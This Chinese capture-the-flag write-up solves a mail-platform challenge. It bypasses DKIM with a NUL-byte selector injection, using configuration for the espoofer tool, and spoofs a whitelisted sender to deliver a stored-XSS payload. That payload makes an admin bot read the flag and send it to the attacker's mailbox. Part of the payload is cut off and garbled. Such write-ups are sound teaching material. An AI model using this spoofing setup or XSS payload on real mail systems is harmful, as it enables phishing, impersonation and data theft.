




## 简陋的邮件平台/shabby-mail-system
题目概述：
注册账号登录



flag页面需要管理员才能看，网页渲染 HTML 邮件的方式是采用 .innerHTML 的方式。由于管理员bot一直在线，可以再通过xss的方式让管理员bot将flag发送到我们的邮箱。不过邮件平台禁止了除指定邮箱外的邮件地址向管理员发件，我们可以通过伪造**Bx7VH7JTK4vzRb@outlook.com**向**admin@localhost**发邮件。
下载查看一下邮件格式

```java
Teapot-Authentication-Result: Passed
	dkim=pass. Skipped. From local sender;
	format=pass. Address alignment validation passed
Content-Type: text/plain; charset=utf-8
From: admin@localhost
To: a0ec75f3e0f5c4cc@localhost
Subject: =?UTF-8?B?5oiR5bey57uP6LeR6Lev5LqG?=
Message-ID: <c29f7b1f-ec29-ef09-0a95-9500cf1eb5dd@localhost>
Content-Transfer-Encoding: base64
Date: Sat, 29 Apr 2023 12:20:16 +0000
MIME-Version: 1.0

6Jm954S25bmz5Y+w5by65Yi25oiRMjTlsI/ml7blnKjnur8sIOS9huaYr+aIkeW3sue7j+aLiem7
keS6huaJgOacieeahOadpeS/oSwg6Zmk5LqG5oiR55qE56eB5Lq66YKu566xIE9CeDdWSDdKVEs0
dnpSYkBvdXRsb29rLmNvbSwg5L2g5Lus54Om5LiN5LqG5oiRLCDlmI7lmI4h
```
可以发现添加了DKIM验证头Teapot-Authentication-Result，也就是说如果想要伪造邮件，我们需要绕过DKIM验证。

DKIM全名**DomainKeys Identified Mail**,邮件发送方发送邮件时，利用本域私钥加密邮件生成DKIM-Signature，将DKIM-Signature及其相关信息插入邮件头。邮件接收方接收邮件时，通过DNS查询获得公钥，验证邮件DKIM签名的有效性。从而确认在邮件发送的过程中，防止邮件被恶意篡改，保证邮件内容的完整性。
一个DKIM验证流程如下



其中最关键的部分为查询对应域名TXT记录中的公钥来验证签名

那么我们该如何进行伪造呢?这篇文章给了我们答案:
[https://www.usenix.org/system/files/sec20fall_chen-jianjun_prepub_0.pdf](https://www.usenix.org/system/files/sec20fall_chen-jianjun_prepub_0.pdf)

我们可以通过在DKIM签名中的s字段插入特殊字符，从而导致查询 DNS 记录时查询域名出现歧义，将验证的域名导向任意域名而不触发域名对齐验证的失败。

**于是乎整个攻击流程：**

工具：[https://github.com/chenjj/espoofer](https://github.com/chenjj/espoofer)

- 为域名配置DKIM公钥记录
- 修改工具配置文件以对题目环境进行攻击：

`common.py`

```python
def generate_dkim_header(dkim_msg, dkim_para):
    d = dkim.DKIM(dkim_msg)
    dkim_header = d.sign(dkim_para["s"], dkim_para["d"], open("dkimkey","rb").read(), canonicalize=(b'relaxed',b'relaxed'), include_headers=[b"from"]).strip()+b"\r\n"
    return dkim_header
```
`config.py`



`testcases.py`

```json
"server_a3": {
  "helo": b"33.attack.com",
  "mailfrom": b"<OBx7VH7JTK4vzRb@outlook.com>",
  "rcptto": b"<victim@victim.com>",
  "dkim_para": {"d":b"legitimate.com", "s":b"dkim._domainkey.attack.com.\x00.outlook.com", "sign_header": b"From: <admin@legitimate.com>"},
  "data": {
    "from_header": b"From: <admin@legitimate.com>\r\n",
    "to_header": b"To: <victim@victim.com>\r\n",
    "subject_header": b"Subject: A3: NUL ambiguity\r\n",
    "body": b'Hi, this is a test message! Best wishes.\r\n',
    "other_headers": b"Date: " + get_date() + b"\r\n" + b'Content-Type: multipart/alternative; boundary="001a113db9c28077e7054ee99e9c"\r\nMIME-Version: 1.0\r\nMessage-ID: <1538085644648.096e3d4e-bc38-4027-b57e-' + id_generator() + b'@message-ids.attack.com>\r\nX-Email-Client: https://github.com/chenjj/espoofer\r\n\r\n',
  },
  "description": b"NUL ambiguity, refer to A3 attack in the paper."
}
```
最终伪造的邮件：
```java
From: <OBx7VH7JTK4vzRb@outlook.com>
To: <admin@localhost>
Subject: SU-Team
Content-Type: text/html;
MIME-Version: 1.0
X-Email-Client: https://github.com/chenjj/espoofer

 response.json())
.then(function(data){
    flag = JSON.stringify(data)
    fetch("/mail", {
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({
            toUserName: "068e732ed09929fc",
            subject: "flag",
            content: flag
        }),
        credentials: "include"
    });})'>
```
之后我们运行工具即可进行攻击：
```json
python3 espoofer.py -id server_a3
```



